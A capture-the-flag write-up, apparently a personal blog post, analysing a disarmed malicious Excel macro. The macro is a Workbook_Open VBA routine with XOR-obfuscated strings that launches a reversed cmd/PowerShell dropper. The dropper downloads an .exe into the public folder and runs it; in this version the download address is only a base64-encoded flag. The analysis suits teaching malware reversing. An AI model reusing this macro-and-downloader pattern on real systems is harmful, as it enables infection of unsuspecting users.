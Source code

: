 ```yaml
---
layout: post
title:  "Excel macro"
summary: "Analyze a malicious Excel file and extract its payload"
author: trigleos
date: '2021-03-01 20:00:00 +0200'
category: ['Reversing','Windows_Reversing','Forensics']
tags: Windows Reversing, Reversing, Forensics, Excel, VBA
thumbnail: /assets/img/posts/excel-macro/excel.png
keywords: Windows Reversing, Reversing, Forensics, Excel, VBA
usemathjax: false
permalink: /blog/excel-macro/
---
```

# сука блять
## TL;DR
Analyze a malicious Excel file and extract its payload
## Description
I found some Russian malware online and I have no idea what it's doing D:

Author: xenocidewiki

The challenge provides us with a Finances2020covid.xlsm file
## Initial analysis
First of all, when you download this file, Microsoft Defender warns you that it is malware. I guess that the author took a malware sample and removed the actual malicious part to create this challenge which is why Defender blocks it. In a real world scenario, you wouldn't simply open the file or even keep it on your computer. The .xlsm hints indeed to a macro-infused excel file, which is commonly used as an initial infection vector. You can easily extract the macro with oledump and analyze it safely if you want to be sure that the macro is not dangerous. In this case however, I'll simply open it with excel and see what it contains.

![excel](/assets/img/posts/excel-macro/excel1.png)

When we first open it, we see this big image that asks us to "enable editing".
Again,you should never do this in a real world sceanrio because this allows the macro to run but in this case, it's safe to enable editing. After that, we get another warning that tells us that macros are deactivated. Again,activate them so we can solve this challenge. When we do this, a message box appears containing the words **Thank you!** Now let's analyze the macro code in detail.
## Macro analysis
To see the macro code in Excel, click on the Developer Tab (you may need to activate this if you haven't used it before) and pick Visual Basic. You can now see a big chunk of code written in VBA (I included a shortened version here so you get the gist of the obfuscation). 
```visualbasic
Private Function decrypt(ciphertext As Variant, key As Variant)
    Dim plaintext As String
    plaintext = ""
    
    For i = LBound(ciphertext) To UBound(ciphertext)
        plaintext = plaintext & Chr(key(i) Xor ciphertext(i))
    Next
    decrypt = plaintext
End Function
Private Function SKDKLNWEio2nf()
Dim wsh As Object

Set wsh = VBA.CreateObject(decrypt(Array(202, 75, (92 Xor (241 - 10)), 215, 91, 144, (135 + 30), (318 - 110), (279 - 92), (92 - 24), 105, 26, ((7 - 2) Xor 74)), Array((124 Xor ((247 - 82) + (103 - 43))), (24 - 0), 216, 165, ((0 + (24 - 12)) Xor 62), (271 - 47), (170 Xor 123), (76 Xor 178), (356 - 124), ((11 - 4) + 37), (2 + 10), 118, (48 - 13))))

Dim wortn As Boolean: wortn = True

Dim wndstyle As Integer: wndstyle = (1 Xor (0 + (0 - 0)))

Dim knlkdneKLADSFLKNfMKWEMLFAS123123njk As String

knlkdneKLADSFLKNfMKWEMLFAS123123njk1 = decrypt(Array(((51 + 171) Xor (8 + 28)), (228 - 7), (131 Xor 43), (19 Xor 11), (132 Xor (31 + (132 - 47))), 168, 23, (151 Xor (100 - 31)), (123 - 3), ((167 - 73) Xor (418 - 202)), (188 - 18)), Array(153, (64 Xor ((152 - 9) + 97)), (((19 - 5) + (41 - 18)) Xor (6 + 227)), 56, (204 + (23 - 4)), (143 + (212 - 101)), (69 - 24), ((26 + (4 - 2)) Xor (68 + 61)), (49 Xor 7), ((199 - 58) Xor 36), (322 - 97)))
knlkdneKLADSFLKNfMKWEMLFAS123123njk2 = ""
wsh.Run knlkdneKLADSFLKNfMKWEMLFAS123123njk1 & knlkdneKLADSFLKNfMKWEMLFAS123123njk2 & knlkdneKLADSFLKNfMKWEMLFAS123123njk3 & knlkdneKLADSFLKNfMKWEMLFAS123123njk32 &
End Function
Private Sub Workbook_Open()

Dim uname As String
Dim strCompName As String
uname = Application.UserName
hostname = Environ$(decrypt(Array((((17 - 3) + 2) Xor 72), ((19 + 141) Xor (7 + (118 - 46))), (114 + (85 - 39)), ((156 - 61) Xor 44), (90 Xor ((2 - 1) + 0)), 176, (12 Xor (73 - 27)), 150, (100 Xor 189), 106, ((49 + 0) Xor (152 - 70)), (8 Xor (49 - 15))), Array(59, ((121 - 60) Xor 189), ((31 + (43 - 5)) Xor 136), 14, (135 - 56))))

If uname = decrypt(Array(161, 143, (157 - 30), (12 Xor (65 + 0)), ((416 - 192) + (16 - 6)), (349 - 157), 194, 138), Array(215, 224, (44 - 17), (6 + 32), 139, (212 - 39), 163, (((75 - 24) + (19 - 6)) Xor 164))) Then
   ...
    End If
Else
    MsgBox decrypt(Array(36, (2 + 12), (21 + 104), (40 + (13 - 0)), 77, ((31 - 12) Xor (1 + 11)), 239, (31 Xor 63), (15 - 4), 0), Array((103 Xor 23), (((53 - 0) + 7) Xor 90), (6 + (24 - 2)), 91, ((48 - 23) + 13), (70 - 7), 150, ((12 - 3) Xor (89 - 19)), 126, 33))
End If

End Sub
```
We can clearly see that this code has been heavily obfuscated. Deobfuscating this is however not that hard. All you need is a few well-placed calls to MsgBox to see the values that are returned by all the decrypt functions. So for example, if you wanted to know what the parameter to the Environ$ call is, simply add
```visualbasic
MsgBox decrypt(Array((((17 - 3) + 2) Xor 72), ((19 + 141) Xor (7 + (118 - 46))), (114 + (85 - 39)), ((156 - 61) Xor 44), (90 Xor ((2 - 1) + 0)), 176, (12 Xor (73 - 27)), 150, (100 Xor 189), 106, ((49 + 0) Xor (152 - 70)), (8 Xor (49 - 15))), Array(59, ((121 - 60) Xor 189), ((31 + (43 - 5)) Xor 136), (3 - 0), (8 + 38), (329 - 133), (19 + 52), ((188 - 28) + 68), (((54 - 25) + 28) Xor 142), ((3 - 1) + (11 - 2)), 14, (135 - 56)))
```
to the script and the value will be shown to you when you run it. If we apply this technique for each obfuscated value in WorkBook_Open() function (the function that gets called when you open the excel file). We get the following cleaned up version:
```visualbasic
Private Sub Workbook_Open()

Dim uname As String
Dim strCompName As String
uname = Application.UserName
hostname = Environ$("computername")
If uname = "vodkaman" Then
    If hostname = "SIGINTCORP" Then
        Call Success
    Else
        MsgBox "Thank you!"
    End If
Else
    MsgBox "Thank you!"
End If

End Sub
```
Now this is much easier to analyze. The code gets our username and computername and then compares them to **vodkaman** and **SIGINTCORP** respectively. It then calls Success (I renamed SKDKLNWEio2nf to Success). So let's see what happens if we call Success:
![powershell](/assets/img/posts/excel-macro/excel2.png)
It opens up a shell and runs some script that finishes after a few seconds and prints *woooops*
Now let's analyze the other function in the macro. There are two important parts in this code:
```powershell
Set wsh = VBA.CreateObject(WScript.Shell)
```
This sets up the shell
```powershell
wsh.Run ...
```
This sets up the command to run in the shell. If we print the parameters to this call, we get the powershell payload.
## Powershell analysis
```powershell
cmd /V:ON/Kset riMt=}
 } ;'spooooow' tuptuO-etirW { hctac };kaerb ;vnE$ metI-ekovnI;)vnE$ ,a$(eliFdaolnwoD.tneilCbeW${ yrt{ )etiSbeW$ ni a$( hcaerof;'exe.' + emaneliF$ + '\\' + cilbup:vne$ = vnE$;'f2lk3m2ja' = emaneliF$;'9RXMfJHMm9FbsRjZfNDbw92Mw91dwg2XyNDZuBzdfFzXuBTbtBzYuV3X0BjbfNXMfNjc0cHb002XBJkV7RWZudHc' = etisbeW$;tneilCbeW.teN tcejbo-wen = tneilCbeW$&&
 for /L %W in (337;-1;0)do set AW7L=!AW7L!!riMt:~%W,1!&&if %W==0 powershell !AW7L:~6! 
```
Again, this payload is heavily obfuscated and the main part is reversed. After a little clean up and reversing the main code, the payload looks like this:
```powershell
$WebClient = new-object Net.WebClient;
$Website = 'cHduZWR7VkJBX200bHc0cjNfMXNfbjB0X3VuYzBtbTBuXzFfdzBuZDNyX2gwd19wM29wbDNfZjRsbF9mMHJfMXR9';
$Filename = 'aj2m3kl2f';
$Env = $env:public + '\\' + $Filename + '.exe';
foreach ($a in $WebSite) 
	{try 
		{$WebClient.DownloadFile($a, $Env);
		Invoke-Item $Env; 
		break;} 
	catch 
		{ Write-Output 'wooooops'; }
```
This payload basically tries to download the second-stage payload.
It would normally have an array of domains defined in the $Website variable that it can contact. Then it tries to download the 'aj2m3kl2f' binary from those domains, saves it, and then tries to invoke it. In this case, however, because the malware has been disarmed, the domain is actually just a base64 encoded string. If decode that, we get our flag: pwned{VBA_m4lw4r3_1s_n0t_unc0mm0n_1_w0nd3r_h0w_p3opl3_f4ll_f0r_1t}

## Conclusion
I really liked this challenge as it introduces macros as a common technique that get often used for initial infection. While it wasn't too complicated, the different techniques needed to solve this challenge were however a nice change from the usual ELF Reversing that you can find in CTFs. Shoutout to xenocidewiki for creating a bunch of great challenges and introducing more variety to the category.Until next time,
-Trigleos
